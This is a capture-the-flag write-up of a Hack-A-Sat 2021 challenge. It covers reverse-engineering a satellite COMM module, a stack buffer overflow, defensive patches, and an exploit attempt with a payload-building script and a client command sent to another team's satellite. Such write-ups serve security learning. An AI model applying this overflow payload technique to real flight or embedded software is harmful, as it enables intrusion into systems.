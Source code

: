 # HACK-A-SAT 2021: Challenge 5

> Challenge 5 is getting deployed to your CDH! Keep the `SLA_TLM` app up and reporting telemetry, and use your access on other satellites to exploit other team's CDH!
>
> If you send data without the DANX flag, it will get routed to the new app!

## Comm Module in Sparc

At the beginning of the final event, we downloaded the `cfe_es_startup.scr` file for both the C&DH and ADCS subsystems. When the announcement for this challenge was made, we downloaded it again for the C&DH to see what new module had been installed:
```diff
diff -u CDH_cfe_es_startup.scr__5517__eb9233ca.cfdp CDH_cfe_es_startup.scr__5602__cf9e2250.cfdp
--- CDH_cfe_es_startup.scr__5517__eb9233ca.cfdp    2021-12-11 20:22:39.000000000 +0100
+++ CDH_cfe_es_startup.scr__5602__cf9e2250.cfdp    2021-12-12 12:22:54.000000000 +0100
@@ -17,6 +17,7 @@
 CFE_APP, /cf/lc.obj,           LC_AppMain,         LC,          80,   16384, 0x0, 0;
 CFE_APP, /cf/sbn_lite.obj,     SBN_LITE_AppMain,   SBN_LITE,    30,   81920, 0x0, 0;
 CFE_APP, /cf/mqtt.obj,         MQTT_AppMain,       MQTT,        40,   81920, 0x0, 0;
+CFE_APP, /cf/comm.obj,         COMM_AppMain,       COMM,        90,   16384, 0x0, 0;
 CFE_APP, /cf/sla_tlm.obj,      SLA_TLM_AppMain,    SLA_TLM,     90,   16384, 0x0, 0;
 CFE_APP, /cf/cf.obj,           CF_AppMain,         CF,         100,   81920, 0x0, 0;
```

The new module's name was `comm.obj`. We then used our scapy-based shell to download the new module:

```python
file_play_cfdp_cdh('/cf/comm.obj')
```

We then proceeded to reverse-engineer it to find what to do with it.

### Finding the vulnerability

The reverse engineering of the module was straightforward. The function `COMM_OBJ_Execute` is called in a loop and processes the packets.

While it wasn't clear at the beginning, it appeared that the goal was to make other teams' satellites send our own attribution key. The following function included in the code but never called could be very handy:
```c
void COMM_OBJ_UpdateSLAKey(uint32 key1,uint32 key2)
{
  CFE_SB_InitMsg(&CommObj->AttrPkt,0x9f9,0x14,1);
  (CommObj->AttrPkt).Header[0] = 0x09;
  (CommObj->AttrPkt).Header[1] = 0xf9;
  (CommObj->AttrPkt).AttrKey1 = key1;
  (CommObj->AttrPkt).AttrKey2 = key2;
  CFE_SB_TimeStampMsg(&CommObj->AttrPkt);
  CFE_SB_SendMsg(&CommObj->AttrPkt);
  CFE_EVS_SendEvent(0x79,2,"Sending Attr Update Packet via SB");
  return;
}
```

Right at the beginning of the `COMM_OBJ_Execute`, we can see some memory copy without any check on the size of the packet:
```c
    if (((MsgId == 0x444d) && (*(char *)((int)PktPtr + 2) == 'D')) &&
       (*(char *)((int)PktPtr + 3) == ':')) {
      CFE_PSP_MemCpy((CommObj->DemodPkt).Synch,PktPtr,PktLen);
      CFE_SB_TimeStampMsg(&CommObj->DemodPkt);
      CFE_SB_SendMsg(&CommObj->DemodPkt);
    }
    else if (((MsgId == 0x4d4f) && (*(char *)((int)PktPtr + 2) == 'D')) &&
            (*(char *)((int)PktPtr + 3) == ':')) {
      CFE_PSP_MemCpy((CommObj->ModPkt).Synch,PktPtr,PktLen);
      CFE_SB_TimeStampMsg(&CommObj->ModPkt);
      CFE_SB_SendMsg(&CommObj->ModPkt);
    }
```

The `Synch` field is at offset 12 of a 68-bytes packet structure, so we already have an overflow in the BSS section. We then checked if there were other usages of the `CFE_PSP_MemCpy` function in the same careless way. We indeed found another memory copy:
```c
void COMM_OBJ_ProcessSLA(uint16 PktLen,CFE_SB_Msg_t *PktPtr)
{
  char buf [16];

  CFE_EVS_SendEvent(0x79,2,"%x %x",buf,PktLen);
  CFE_PSP_MemCpy(buf,PktPtr,PktLen);
  CFE_EVS_SendEvent(0x79,2,&DAT_00011078);
  return;
}
```

This is an obvious stack-based buffer overflow. We checked when this function was called:
```c
    else if ((MsgId == 0x19e4) &&
            (((uint)*(byte *)((int)Message + 0xf) |
             (uint)*(byte *)((int)Message + 0xe) << 8 |
             (uint)*(byte *)((int)Message + 0xd) << 0x10 |
             (uint)*(byte *)((int)Message + 0xc) << 0x18) == 0x41414141)) {
      CFE_EVS_SendEvent(0x79,2,"received payload SLA TLM msg Status: %d ExecutionCount: %u",Status,
                        CommObj->ExecCnt);
      Message = PktPtr;
      OS_TaskDelay(1);
      COMM_OBJ_ProcessSLA(PktLen,PktPtr);
```

So we needed to send a packet with an ID of `0x19e4` and a starting payload of `'AAAA'` to trigger the vulnerability. From there, we had to leverage the buffer overflow in order to call `COMM_OBJ_UpdateSLAKey` with our key, and then clean everything so the module won't crash.

### Communicating with the COMM module of other teams

For this challenge, the `client` binary from challenge 3 was to be used again. This time, without using the DANX service flag. To send a message to another team satellite, the following command worked:

```sh
./client -k 5647008472405673096 -f ../other_teams_keys/team_1_rsa_priv.pem -i 1 -p 31337 -a 10.0.0.101 -m 41414141
```

We could now start to craft an exploit payload.

### Defense

Shortly after the module was deployed on all satellites, we had a crash with obvious SLA consequences and a loss of points. We investigated to try to defend against possibly DoS attempts. The function `COMM_OBJ_Execute` contained a `for` loop which displayed some bytes of the received message:

```c
    for (i = 0; i < 0x12; i = i + 1) {
      CFE_EVS_SendEvent(0x79,2,"[%d]:%x",i,*(undefined *)((int)PktPtr + i));
    }
```

In practice, this `for` loop was causing issues because too many event messages were sent at once: only the first two bytes of the received message were displayed.
This enabled us to find out that these bytes were `19 e4`, matching the message ID for `COMM_PAYLOAD_SLA`.
To protect ourselves from the other teams, we first patched this code by replacing the opcodes for the `for` loop to add this:

```c
if (MsgId == 0x19e4) {
    return;
}
```

Later, the patch was updated to:
```c
    if (MsgId != 0x19e4 || PktLen < 0x10) {
      CFE_EVS_SendEvent(0x79,2,"[%d]:%x",i,*(undefined *)((int)PktPtr + i));
      [...]
    }
```

This way, no other team could exploit the buffer overflow vulnerability in our module :)

We uploaded the patched module and restarted the COMM module using our scapy shell:

```python
file_upload_cfdp_file_cdh("/cf/comm_patch.obj", "CDH_comm.obj-PATCHED")
stop_app_cdh("COMM")
time.sleep(1)
start_app_cdh("COMM", "COMM_AppMain", "/cf/comm_patch.obj", 90, stack_size=16384)
```

This appeared to work. Actually, it worked so well that we wasted a lot of time trying to understand why we couldn't debug our exploit on our satellite because of this. The lack of sleep might have played a role...

## Exploit tentative

Last year, we successfully exploited a vulnerability on a Sparc system (<https://github.com/solar-wine/writeups/tree/master/Finals/Earth-based#exploiting-the-backdoor>).
We tried to reproduce this feat this year but did not achieve doing so :(

One of the major difficulties we faced was we did not know how the packet we wrote in the `./client` invocation was received by the COMM module: was it received as-is? Was it packed in a normal CCSDS message? Was it copied from an unusual offset?

At some point, we decided to patch the COMM module directly in memory to display relevant fields of the received packet, as the `for` loop which was supposed to help the participants did not work properly:

```python
# Use addresses relative to COMM_OBJ_Execute, loaded at 0x00010898 in the obj file.
# Patch the first loop to display only two bytes, to avoid dropping event messages
mem_write32_from_symbol_cdh("COMM_OBJ_Execute", 0x000109c0-0x00010898, 0x80A06001)

# Change:
#     00010dc8 c2 07 bf ec     lduw       [fp+PktPtr],g1
#     00010dcc c2 08 40 00     ldub       [g1+g0],g1
#     00010dd0 86 08 60 ff     and        g1,0xff,g3
#     00010dd4 c2 07 bf ec     lduw       [fp+PktPtr],g1
#     00010dd8 c2 08 60 01     ldub       [g1+0x1],g1
#     00010ddc 88 08 60 ff     and        g1,0xff,g4
#     00010de0 c2 07 bf ec     lduw       [fp+PktPtr],g1
#     00010de4 c2 08 60 0c     ldub       [g1+0xc],g1
# To:
#     00010dc8 c2 07 bf ec     lduw       [fp+-0x14],g1
#     00010dcc c2 00 60 0c     lduw       [g1+0xc],g1
#     00010dd0 86 10 00 01     mov        g1,g3
#     00010dd4 c2 07 bf ec     lduw       [fp+-0x14],g1
#     00010dd8 c2 00 60 10     lduw       [g1+0x10],g1
#     00010ddc 88 10 00 01     mov        g1,g4
#     00010de0 c2 07 bf ec     lduw       [fp+-0x14],g1
#     00010de4 c2 00 60 08     lduw       [g1+0x8],g1
mem_write32_from_symbol_cdh("COMM_OBJ_Execute", 0x00010dcc-0x00010898, 0xc200600c)
mem_write32_from_symbol_cdh("COMM_OBJ_Execute", 0x00010dd0-0x00010898, 0x86100001)
mem_write32_from_symbol_cdh("COMM_OBJ_Execute", 0x00010dd8-0x00010898, 0xc2006010)
mem_write32_from_symbol_cdh("COMM_OBJ_Execute", 0x00010ddc-0x00010898, 0x88100001)
mem_write32_from_symbol_cdh("COMM_OBJ_Execute", 0x00010de4-0x00010898, 0xc2006008)
```

This patch modified the parameters of a `CFE_EVS_SendEvent` call in the function `COMM_OBJ_Execute` to print the content of the 12 bytes between offsets 8 and 0x13 of the received message.

This enabled us to understand that the packet defined in the `client` invocation was in fact received at offset 0xc of the message!
So the CCSDS header (containing the message ID, its length...) was out of reach and all we needed to do was to send a message starting with `41414141` to trigger the call to the vulnerable `COMM_OBJ_ProcessSLA` function!

We tried to forge a suitable payload to call `COMM_OBJ_UpdateSLAKey` with our attribution key 0x4E5E3449595C8488:

```python
COMM_OBJ_UpdateSLAKey_addr = 0x414b3a00
my_new_sp = 0x406d5138 - 0x10
payload = struct.pack(">17I",
    0x41414141,
    0x00000000,  0x00000000,  0x00000000,  0x00000000,
    0x00000000,  0x00000000,  0x00000000,  0x00000000,
    0x4E5E3449,  0x595C8488,  0x00000000,  0x00000000,
    0x00000000,  0x00000000,  my_new_sp,  COMM_OBJ_UpdateSLAKey_addr - 8)
print(bytes(payload).hex())
```

When sending this payload, it did not seem to work, and we did not understand why.

```sh
./client -k 5647008472405673096 -f ../other_teams_keys/team_1_rsa_priv.pem -i 1 -p 31337 -a 10.0.0.101 -m 4141414100000000000000000000000000000000000000000000000000000000000000004e5e3449595c848800000000000000000000000000000000406d5128414b39f8
```

The stack pointer we used, `0x406d5128`, could have caused issues due to not being well aligned. Oops, exploiting Sparc systems is hard.
